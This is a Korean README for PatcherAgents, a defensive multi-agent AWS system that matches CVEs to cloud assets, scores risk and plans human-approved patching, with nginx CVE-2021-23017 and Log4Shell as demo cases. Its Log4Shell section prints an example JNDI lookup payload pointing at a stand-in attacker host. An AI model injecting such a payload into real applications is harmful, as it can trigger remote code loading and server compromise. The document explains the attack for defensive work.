

# PatcherAgents

> 공개된 취약점이 실제 클라우드 자산에 어떤 영향을 주는지 AI 에이전트들이 자동으로 분석하고, 자산 식별부터 위험도 평가, 패치 전략 수립 및 실행까지 연결하는 멀티 에이전트 기반 보안 대응 자동화 시스템입니다.

## 프로젝트 개요

PatcherAgents는 클라우드 환경에서 공개된 취약점에 대해 다음 과정을 자동화하는 프로젝트입니다.

```text
취약점 정보 수집
→ 영향받는 클라우드 자산 식별
→ 자산별 실제 위험도 평가
→ 운영 영향을 고려한 패치 전략 수립
→ 필요 시 승인 기반 패치 실행
```

새로운 CVE가 주어지면 시스템은 먼저 취약점의 영향 범위, 악용 조건, 패치 및 완화 정보를 구조화합니다.

이후 현재 AWS 인프라에서 어떤 서버와 소프트웨어가 실제로 영향을 받는지 조사하고, 자산의 네트워크 노출 상태, 실행 권한, 설치 버전, 서비스 구성 등을 바탕으로 자산별 위험도를 평가합니다.

마지막으로 단순히 위험도가 높다는 이유만으로 즉시 패치를 결정하지 않고, 다음 요소를 함께 고려해 최종 대응 전략을 생성합니다.

- 현재 자산에서 실제 취약 버전이 사용 중인지
- 외부 입력이 취약 기능까지 도달할 수 있는지
- 정식 패치 또는 버전 업그레이드가 가능한지
- 서비스 재시작이나 재배포가 필요한지
- 패치가 운영 중단이나 의존성 충돌을 일으킬 수 있는지
- 정식 패치 전 적용 가능한 임시 완화책이 있는지
- 추가 기술 사실 확인 또는 사람 검토가 필요한지

즉, PatcherAgents는 단순히 CVE 정보를 조회하는 도구가 아니라 다음 질문에 답하는 시스템입니다.

> 이 취약점이 현재 우리 클라우드 환경에서 실제로 어떤 의미가 있으며, 지금 어떤 조치를 취해야 하는가?

---

## 주제 선정 배경

최근 생성형 AI는 공격자의 생산성을 높이는 보조 도구를 넘어, 정찰, 취약점 탐색, 공격 코드 작성, 데이터 분석과 같은 공격 과정 전반을 빠르게 수행하는 데 활용되고 있습니다.

공격 측의 탐색과 자동화 속도가 빨라지는 상황에서 방어 측 역시 공개된 취약점에 대해 다음 작업을 더 빠르게 수행할 필요가 있다고 판단했습니다.

```text
CVE 분석
→ 보유 자산과의 연관성 확인
→ 실제 악용 가능성 평가
→ 우선순위 결정
→ 패치 및 완화 전략 수립
```

기존 취약점 대응 과정에서는 보안 담당자가 여러 시스템을 오가며 다음 정보를 수동으로 결합해야 합니다.

- 공개 CVE 정보
- 영향받는 제품과 버전
- 클라우드 자산 목록
- 실제 설치된 소프트웨어
- 네트워크 노출 상태
- 서비스 실행 권한
- 운영 중요도
- 패치 및 재배포 영향

PatcherAgents는 이 과정을 역할별 AI 에이전트로 분리하여, 각 에이전트가 전문적인 판단을 수행하고 결과를 다음 단계로 전달하도록 설계했습니다.

---

## 전체 시스템 아키텍처



### 데이터 전달 관계

각 에이전트는 하나의 직전 결과만 받는 것이 아니라, 판단에 필요한 여러 결과를 함께 사용합니다.

```text
취약점 수집 Agent
├─ asset_matching_payload
│        └─ 자산 매칭 Agent 입력
│
├─ risk_assessment_payload
│        └─ 위험도 평가 Agent 입력
│
└─ operational_payload
         └─ 패치 전략 Agent 입력
```

```text
자산 매칭 Agent
입력
└─ asset_matching_payload

출력
└─ infra_context
```

```text
위험도 평가 Agent
입력
├─ risk_assessment_payload
└─ infra_context

출력
└─ risk_result
```

```text
패치 전략 Agent
입력
├─ risk_result
├─ infra_context
└─ operational_payload

출력
└─ patch_strategy_result
```

```text
패치 실행 Agent
입력
├─ patch_strategy_result
└─ 관리자 승인 정보

출력
└─ 패치 명령 실행 및 검증 결과
```

---

## 핵심 설계 원칙

### 1. 취약점 중심이 아닌 자산 중심 평가

동일한 CVE라도 모든 서버가 동일한 위험도를 가지지는 않습니다.

PatcherAgents는 다음 정보를 결합해 자산별 위험도를 별도로 계산합니다.

```text
CVE 자체 위험도
+ 실제 설치 버전
+ 취약 기능 사용 여부
+ 외부 입력 도달 가능성
+ 네트워크 노출
+ 실행 권한
+ 자산 중요도
+ 완화 통제 존재 여부
```

예를 들어 동일한 nginx 취약 버전이라도 인터넷에 직접 노출되고 root 권한으로 실행되는 서버와 내부망에서만 사용되는 서버는 서로 다른 우선순위를 가집니다.

### 2. 사실 수집과 의사결정의 분리

자산 매칭 에이전트는 실제 환경에서 관측할 수 있는 기술 사실을 수집합니다.

```text
설치된 버전
실행 프로세스
열린 포트
설정 파일
서비스 실행 권한
배포 방식
네트워크 노출 상태
```

위험도 평가 및 패치 전략 에이전트는 이 사실을 근거로 판단합니다.

```text
위험도
패치 가능성
운영 영향
완화책
최종 대응 방식
```

이를 통해 사실 수집 에이전트가 패치 여부를 임의로 결정하거나, 의사결정 에이전트가 확인되지 않은 자산 상태를 추측하는 것을 줄입니다.

### 3. 필요한 사실만 추가 질의

패치 전략 에이전트는 기존 입력만으로 판단하기 어려운 경우 자산 매칭 에이전트에 추가 질문을 보낼 수 있습니다.

예시:

```text
현재 실행 중인 Java 프로세스가 취약 Log4j JAR를 실제로 참조하는가?
```

```text
nginx가 OS 패키지로 설치되었는가, 직접 컴파일된 바이너리인가?
```

```text
패치 적용 후 서비스 재시작 또는 애플리케이션 재배포가 필요한가?
```

추가 질의는 record별 횟수와 실행 시간 제한을 적용하여 무제한 호출을 방지합니다.

### 4. 보수적 Fallback

모델 응답이 불완전하거나 근거가 부족한 경우, 해당 자산을 결과에서 제거하지 않습니다.

대신 다음과 같은 보수적 결과를 생성합니다.

```json
{
  "selected_action": "human_review",
  "confidence": "low",
  "remaining_unknowns": [
    "insufficient_evidence"
  ]
}
```

이를 통해 모델 오류로 인해 위험 자산이 최종 보고서에서 누락되는 것을 방지합니다.

### 5. Human-in-the-Loop

실제 서버 변경으로 이어질 수 있는 조치는 자동 판단 결과만으로 실행하지 않습니다.

패치 실행 단계에서는 다음 항목을 별도로 확인합니다.

- 대상 자산
- CVE와 패치 전략의 일치 여부
- 관리자 승인 상태
- 허용된 패치 방식
- 실행 명령 검증
- Rollback 계획
- 패치 후 검증 항목

---

## 에이전트 구성

| Agent | 주요 역할 | 대표 입력 | 대표 출력 |
| --- | --- | --- | --- |
| Orchestrator Agent | 전체 파이프라인 순서 제어 및 Agent 간 데이터 전달 | 사용자 요청, 실행 모드 | 전체 실행 결과 |
| Vulnerability Collector Agent | CVE 정보 수집 및 후속 Agent별 Payload 생성 | CVE ID | `asset_matching_payload`, `risk_assessment_payload`, `operational_payload` |
| Asset Matching Agent | AWS 자산 탐색 및 실제 소프트웨어·네트워크·보안 정보 수집 | `asset_matching_payload` | `infra_context` |
| Risk Evaluation Agent | CVE 정보와 실제 자산 상태를 결합해 자산별 위험도 계산 | `risk_assessment_payload`, `infra_context` | `risk_result` |
| Patch Strategy Agent | 위험도, 자산 정보, 운영 영향을 결합해 최종 대응 전략 결정 | `risk_result`, `infra_context`, `operational_payload` | `patch_strategy_result` |
| Patch Execution Agent | 승인된 패치 또는 완화 조치를 실제 대상에 실행하고 결과 확인 | `patch_strategy_result`, 승인 정보 | 실행 및 검증 결과 |

---

## 에이전트별 처리 흐름

### Vulnerability Collector Agent

공개된 CVE 정보를 수집하고, 각 후속 에이전트가 바로 사용할 수 있는 목적별 Payload를 생성합니다.

```text
CVE 입력
   │
   ├─ 영향받는 제품 및 버전
   ├─ 악용 조건
   ├─ 수정 버전
   ├─ 자산 확인 항목
   ├─ 패치 유형
   ├─ 의존성 및 운영 영향
   └─ 임시 완화책
```

출력:

```text
asset_matching_payload
risk_assessment_payload
operational_payload
```

### Asset Matching Agent

AWS VPC 안의 EC2 자산을 탐색하고, AWS Systems Manager를 통해 각 인스턴스의 실제 상태를 조사합니다.

수집 대상:

```text
설치된 소프트웨어 및 버전
실행 중인 프로세스
열린 포트
Public/Private 네트워크 노출
Security Group
IAM Role
IMDSv2 적용 여부
서비스 실행 권한
설정 파일과 설치 경로
```

출력:

```text
infra_context
```

### Risk Evaluation Agent

취약점 수집 결과와 자산 매칭 결과를 결합하여 각 자산의 실제 위험도를 산정합니다.

```text
risk_assessment_payload
          +
infra_context
          ↓
asset_id × cve_id 위험도 평가
```

평가 결과에는 다음 항목이 포함될 수 있습니다.

- 자산별 계산 위험도
- 외부 노출 수준
- 실제 악용 조건 충족 여부
- 위험도를 높이거나 낮춘 근거
- 권장 조치

출력:

```text
risk_result
```

### Patch Strategy Agent

위험도 결과, 자산 정보, 운영 영향 정보를 함께 보고 자산별 최종 대응 전략을 결정합니다.

```text
risk_result
      +
infra_context
      +
operational_payload
      ↓
patch_strategy_result
```

선택 가능한 주요 전략:

| 전략 | 의미 |
| --- | --- |
| `apply_patch_now` | 정식 패치를 즉시 적용 |
| `apply_patch_planned` | 계획된 변경 일정에 정식 패치 적용 |
| `apply_mitigation_now` | 정식 패치 전 임시 완화 조치 우선 적용 |
| `human_review` | 근거 부족 또는 운영 불확실성으로 사람 검토 필요 |

### Patch Execution Agent

승인된 패치 전략을 실제 실행 단계로 전환합니다.

주요 처리:

```text
패치 전략 수신
→ 대상 자산 및 CVE 확인
→ 자동 실행 또는 관리자 승인 분류
→ AWS SSM을 통한 실행
→ 실행 상태 확인
→ 패치 후 검증
→ 결과 반환
```

실제 운영 서버의 변경으로 이어질 수 있으므로, 격리된 실습 환경과 승인 절차를 전제로 합니다.

---

## Frontend

프론트엔드는 멀티 에이전트 파이프라인을 실행하고 결과를 시각적으로 확인하기 위한 데모 인터페이스입니다.

기술 구성:

```text
React
TypeScript
Vite
pnpm
```

### Workflow

전체 파이프라인 실행 화면입니다.

- 실행 모드 선택
- Stack 이름 입력
- AWS Region 설정
- CVE ID 지정
- 실행 진행 상태 표시
- 실제 변경 가능 모드에 대한 안전 확인 팝업

### Result

일반 사용자와 보안 담당자를 위한 결과 화면입니다.

- 에이전트별 처리 결과
- 취약점과 영향 자산
- 위험도 평가 근거
- 선택된 패치 전략
- 처리 단계별 타임라인
- 결과 생성 시각

### Dev

개발자용 원본 데이터 확인 화면입니다.

- Agent별 입력 JSON
- Agent별 출력 JSON
- Agent 간 전달 데이터
- 추가 자산 질의 내역
- 오케스트레이션 흐름
- 대화 및 Follow-up 기록

---

## 실행 모드

| 모드 | 설명 |
| --- | --- |
| `Vuln` | 취약점 수집 에이전트만 실행 |
| `Asset` | 기존 취약점 Payload를 사용해 자산 매칭 실행 |
| `Risk` | 기존 취약점 및 자산 결과를 사용해 위험도 평가 실행 |
| `Patch` | 기존 위험도 및 운영 영향 결과를 사용해 패치 전략 생성 |
| `Exec 전` | 취약점 수집부터 패치 전략까지 실행하고 실제 패치 실행은 차단 |
| `Exec` | 실제 패치 실행 단계까지 포함 가능 |
| `Full` | 전체 파이프라인 실행 |
| `Test` | 특정 단계의 입력을 주입해 개별 흐름 테스트 |

데모 환경에서는 실제 서버 변경을 방지하면서 전체 판단 흐름을 보여줄 수 있는 `Exec 전` 모드를 권장합니다.

---

## 선정 취약점

현재 데모 시나리오는 다음 두 가지 취약점을 중심으로 구성되어 있습니다.

### CVE-2021-23017 — nginx Resolver Off-by-One


nginx가 DNS 응답의 이름을 복원하는 과정에서 발생하는 off-by-one 메모리 오류입니다.

프로젝트의 실습 환경에서는 `/app/` Reverse Proxy 요청을 처리할 때 nginx가 내부 DNS 질의를 수행하도록 구성했습니다.

공격자가 조작된 DNS 응답을 전달할 수 있는 조건에서는 `ngx_resolver_copy()` 처리 과정에서 버퍼 범위를 벗어난 1바이트 쓰기가 발생할 수 있습니다.

가능한 영향:

```text
nginx Worker Process 비정상 종료
반복적인 프로세스 장애
서비스 가용성 저하
Denial of Service
```

분석 시 주요 확인 항목:

- nginx 버전
- Resolver 기능 사용 여부
- 실제 DNS 처리 발생 여부
- nginx 실행 권한
- 인터넷 노출 여부
- 패키지 설치 또는 직접 컴파일 여부
- 업그레이드 후 서비스 재시작 영향

### CVE-2021-44228 — Log4Shell


Log4Shell은 공격자가 다음과 같은 JNDI Lookup 표현식을 애플리케이션 입력으로 전달했을 때 발생할 수 있는 취약점입니다.

```text
${jndi:ldap://attacker.example/resource}
```

취약한 Log4j 버전이 해당 입력을 로그에 기록하면 이를 일반 문자열이 아니라 Lookup 표현식으로 처리할 수 있습니다.

그 결과 서버가 외부 JNDI 또는 LDAP 서버에 연결하며, 환경에 따라 다음 영향으로 이어질 수 있습니다.

```text
환경 정보 유출
외부 네트워크 통신
악성 객체 또는 클래스 로딩
원격 코드 실행
서버 권한 탈취
```

분석 시 주요 확인 항목:

- Log4j 버전
- 실제 애플리케이션 Classpath 포함 여부
- 외부 입력이 로그에 기록되는지
- JndiLookup 구성요소 존재 여부
- 애플리케이션 실행 권한
- 네트워크 Egress 가능 여부
- 라이브러리 교체 후 재빌드 또는 재배포 필요 여부

---

## 주요 산출물

| 산출물 | 설명 |
| --- | --- |
| `asset_matching_payload.json` | 자산 매칭 에이전트가 확인해야 할 제품, 버전 및 자산 조건 |
| `risk_assessment_payloads.json` | 위험도 평가에 필요한 취약점 영향 및 악용 조건 |
| `operational_impact_payloads.json` | 패치 방식, 운영 영향, 의존성 및 완화 조치 |
| `infra_context.json` | 자산별 소프트웨어, 네트워크, 보안 및 배포 정보 |
| `risk_evaluation_result.json` | 자산별 최종 위험도와 평가 근거 |
| `patch_strategy_result.json` | 자산별 최종 패치 또는 완화 전략 |
| `asset_fact_trace.json` | 패치 전략 단계에서 수행한 추가 자산 질의 기록 |
| Patch Execution Result | 패치 실행 명령, 상태 및 검증 결과 |

실행 결과는 기본적으로 다음 디렉터리에 생성됩니다.

```text
MultiAIagent/OchestraResult/
```

이 디렉터리에는 실제 AWS 자산 ID, IP 주소, ARN, 설정 정보가 포함될 수 있으므로 Git에 커밋하지 않습니다.

---

## 기술 스택

| 영역 | 기술 |
| --- | --- |
| Frontend | React, TypeScript, Vite, pnpm |
| Agent Framework | Strands Agents |
| LLM | Amazon Bedrock |
| Runtime | Amazon Bedrock AgentCore |
| Backend | Python |
| Schema Validation | Pydantic |
| Cloud | AWS |
| Infrastructure | VPC, EC2, Security Group, IAM, CloudFormation |
| Remote Execution | AWS Systems Manager |
| Agent Communication | JSON Payload, AgentCore Runtime Invocation |
| Approval | Human-in-the-Loop, Slack 연동 |
| Output | JSON 기반 Agent별 중간·최종 산출물 |

---

## 저장소 구조

```text
PatcherMultiAiagentProject/
├─ README.md
│
├─ frontend/
│  ├─ src/
│  ├─ vite.config.ts
│  └─ README.md
│
├─ image/
│  └─ PatcherAgentsOverallStructure.png
│
├─ MultiAIagent/
│  ├─ README.md
│  ├─ run_orchestrator_runtime.py
│  │
│  ├─ OrchestratorAgent(AWS)/
│  ├─ VulnCollectorAgent(AWS)/
│  ├─ Infra_matchingAgent(AWS)/
│  ├─ Risk_evaluation_agent(AWS)/
│  ├─ PatchStrategyAgent(AWS)/
│  ├─ PatchExecAgent(AWS)/
│  │
│  ├─ scripts/
│  ├─ OchestraResult/
│  └─ Conversationlog/
│
├─ InfraSubjectTo Vulnerability Inspection/
│  └─ CloudFormation 기반 취약 인프라 실습 환경
│
├─ aws_backup/
│  └─ 비식별화된 AWS IAM 및 구성 참고 자료
│
└─ .gitignore
```

`OchestraResult`와 `Conversationlog`는 실행 시 생성되는 로컬 데이터이며 공개 저장소에 포함하지 않습니다.

---

## 상세 문서

- [멀티 에이전트 파이프라인](./MultiAIagent/README.md)
- [Frontend](./frontend/README.md)
- [취약점 수집 에이전트](<./MultiAIagent/VulnCollectorAgent(AWS)/README.md>)
- [자산 매칭 에이전트](<./MultiAIagent/Infra_matchingAgent(AWS)/README.md>)
- [패치 전략 에이전트](<./MultiAIagent/PatchStrategyAgent(AWS)/README.md>)
- [패치 실행 에이전트](<./MultiAIagent/PatchExecAgent(AWS)/README.md>)

---

## 실행 준비

### 저장소 복제

```powershell
git clone https://github.com/monkama/PatcherMultiAiagentProject.git
cd PatcherMultiAiagentProject
```

### Python 가상환경

```powershell
python -m venv .venv
.\.venv\Scripts\Activate.ps1
```

각 에이전트 디렉터리의 `requirements.txt`를 기준으로 필요한 패키지를 설치합니다.

예시:

```powershell
python -m pip install -r "MultiAIagent/VulnCollectorAgent(AWS)/requirements.txt"
python -m pip install -r "MultiAIagent/Infra_matchingAgent(AWS)/requirements.txt"
python -m pip install -r "MultiAIagent/Risk_evaluation_agent(AWS)/requirements.txt"
python -m pip install -r "MultiAIagent/PatchStrategyAgent(AWS)/requirements.txt"
python -m pip install -r "MultiAIagent/PatchExecAgent(AWS)/requirements.txt"
```

### Frontend

```powershell
cd frontend
pnpm install
pnpm dev
```

기본 개발 서버:

```text
http://localhost:5173
```

### Orchestrator

저장소 루트에서 실행합니다.

```powershell
python MultiAIagent/run_orchestrator_runtime.py
```

실제 실행에는 AWS 인증정보, Bedrock 모델 접근 권한 및 각 AgentCore Runtime ARN이 필요합니다.

---

## 환경변수

환경별 실제 값은 프로젝트 루트의 `.env`에서 관리합니다.

```env
AWS_DEFAULT_REGION=<AWS_REGION>
BEDROCK_MODEL_ID=<BEDROCK_MODEL_ID>

ORCHESTRATOR_AGENTCORE_ARN=arn:aws:bedrock-agentcore:<AWS_REGION>:<AWS_ACCOUNT_ID>:runtime/<ORCHESTRATOR_AGENT_ID>
ASSET_MATCHING_AGENTCORE_ARN=arn:aws:bedrock-agentcore:<AWS_REGION>:<AWS_ACCOUNT_ID>:runtime/<ASSET_MATCHING_AGENT_ID>
RISK_EVALUATION_AGENTCORE_ARN=arn:aws:bedrock-agentcore:<AWS_REGION>:<AWS_ACCOUNT_ID>:runtime/<RISK_EVALUATION_AGENT_ID>
PATCH_STRATEGY_AGENTCORE_ARN=arn:aws:bedrock-agentcore:<AWS_REGION>:<AWS_ACCOUNT_ID>:runtime/<PATCH_STRATEGY_AGENT_ID>
PATCH_EXEC_AGENTCORE_ARN=arn:aws:bedrock-agentcore:<AWS_REGION>:<AWS_ACCOUNT_ID>:runtime/<PATCH_EXEC_AGENT_ID>

OPENCVE_API_KEY=<OPENCVE_API_KEY>
```

AWS CLI Profile 또는 IAM Role을 사용하는 환경에서는 Access Key를 `.env`에 직접 기록하지 않아도 됩니다.

실제 `.env` 파일은 Git에 커밋하지 않습니다.

---

## 보안 및 운영 주의사항

이 프로젝트는 보안 자동화 연구, 실습 및 데모를 목적으로 합니다.

- 취약한 nginx 및 Log4j 환경은 외부 인터넷과 분리된 실습 환경에서만 운영합니다.
- 실제 AWS 계정 ID, ARN, Instance ID, VPC ID, IP 주소를 저장소에 커밋하지 않습니다.
- `.env`, AWS Access Key, Secret Key, Slack Token 및 Signing Secret을 Git에 저장하지 않습니다.
- 실행 결과에는 실제 인프라 정보가 포함될 수 있으므로 `OchestraResult`와 `Conversationlog`를 Git에서 제외합니다.
- AgentCore Runtime 호출 권한은 필요한 Runtime ARN으로 제한합니다.
- AWS SSM 실행 권한은 허용된 대상 인스턴스로 제한합니다.
- 모델이 생성한 명령을 검증 없이 운영 서버에서 실행하지 않습니다.
- 실제 패치 실행 전 대상 자산, 승인 상태, Rollback 계획 및 검증 절차를 확인합니다.
- `Exec`와 `Full` 모드는 실제 서버 변경으로 이어질 수 있으므로 격리된 환경에서만 사용합니다.
- 실습 종료 후 생성된 AWS 리소스를 삭제하여 불필요한 비용과 노출을 방지합니다.

---

## 현재 범위와 한계

현재 프로젝트는 다음 환경을 중심으로 구현되었습니다.

```text
AWS 기반 3-Tier 인프라
EC2 및 AWS Systems Manager
nginx 1.20.0
Log4j 2.14.1
CVE-2021-23017
CVE-2021-44228
```

현재 한계:

- 분석 대상 취약점과 제품이 데모 시나리오 중심으로 제한되어 있습니다.
- 자산 수집은 AWS EC2 및 SSM 기반 환경에 최적화되어 있습니다.
- AI 판단 결과는 입력 데이터의 완전성과 자산 수집 정확도에 영향을 받습니다.
- 패치 실행 명령에 대한 Allowlist와 정책 기반 검증을 지속적으로 강화해야 합니다.
- 실제 운영 적용 전 변경 승인, Rollback, 감사 로그와 같은 운영 통제가 추가로 필요합니다.

확장 방향:

- 다수 CVE 및 제품군 지원
- Container 및 Kubernetes 자산 분석
- AWS Security Hub, Inspector, Config 연동
- 패치 명령 Allowlist 및 정책 엔진
- 자동 Rollback과 사후 검증
- Agent별 테스트 및 평가 체계
- CI/CD 기반 코드 및 보안 검사
- 실행 결과 저장소와 감사 추적 강화

---

## 프로젝트 요약

PatcherAgents는 다음 판단 과정을 자동화하는 프로젝트입니다.

```text
공개된 취약점은 무엇인가?
        ↓
우리 인프라에서 어떤 자산이 영향을 받는가?
        ↓
각 자산의 실제 위험도는 어느 정도인가?
        ↓
정식 패치가 가능한가?
        ↓
운영 영향은 무엇인가?
        ↓
지금 패치할 것인가, 계획 패치할 것인가,
완화책을 먼저 적용할 것인가, 사람이 검토할 것인가?
```

이 프로젝트의 핵심은 AI가 보안 담당자를 대신해 무조건 패치를 실행하는 것이 아닙니다.

여러 출처에서 수집한 기술적 사실을 연결하고, 자산별 위험과 운영 영향을 구조화하여 보안 담당자가 더 빠르고 근거 있게 대응할 수 있도록 지원하는 것이 목적입니다.
